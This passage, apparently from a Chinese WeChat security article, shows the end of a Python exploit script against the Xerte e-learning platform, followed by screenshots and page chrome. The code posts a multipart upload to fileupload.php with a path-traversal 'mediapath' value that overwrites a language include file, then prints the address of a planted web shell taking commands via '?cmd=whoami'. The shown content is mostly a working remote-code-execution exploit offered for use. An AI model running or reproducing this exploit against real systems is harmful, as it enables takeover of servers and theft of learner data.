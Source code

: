     define("INDEX_BUTTON_CANCEL", "Cancel");  
      
    define("INDEX_BUTTON_SAVE", "Save");  
      
    define("INDEX_XAPI_DASHBOARD_FROM", "From:");  
      
    define("INDEX_XAPI_DASHBOARD_UNTIL", "Until:");  
      
    define("INDEX_XAPI_DASHBOARD_GROUP_SELECT", "Select group:");  
      
    define("INDEX_XAPI_DASHBOARD_GROUP_ALL", "All groups");  
      
    define("INDEX_XAPI_DASHBOARD_SHOW_NAMES", "Show names and/or email addresses");  
      
    define("INDEX_XAPI_DASHBOARD_CLOSE", "Close dashboard");  
      
    define("INDEX_XAPI_DASHBOARD_DISPLAY_OPTIONS", "Display options");  
      
    define("INDEX_XAPI_DASHBOARD_SHOW_HIDE_COLUMNS", "Show / hide columns");  
      
    define("INDEX_XAPI_DASHBOARD_QUESTION_OVERVIEW", "Interaction overview");  
      
    define("INDEX_XAPI_DASHBOARD_PRINT", "Print");  
    \r  
    \r  
    -----------------------------170331411929658976061651588978  
    Content-Disposition: form-data; name="mediapath"  
      
    ''' \  
        + install_path \  
        + '''../../../languages/en-GB/  
    -----------------------------170331411929658976061651588978--\r  
    '''  
      
        # Overwrite index.inc file  
        response = session.post(xerte_base_url + '/website_code/php/import/fileupload.php', headers=headers, data=data)  
        print('Installation path: ' + install_path)  
        print(response.text)  
        if "success" in response.text:  
            print("Visit shell @: " + xerte_base_url + '/?cmd=whoami')  
                  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175644.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175645.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175646.png)

后台回复“粉丝群”加入公众号粉丝群

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

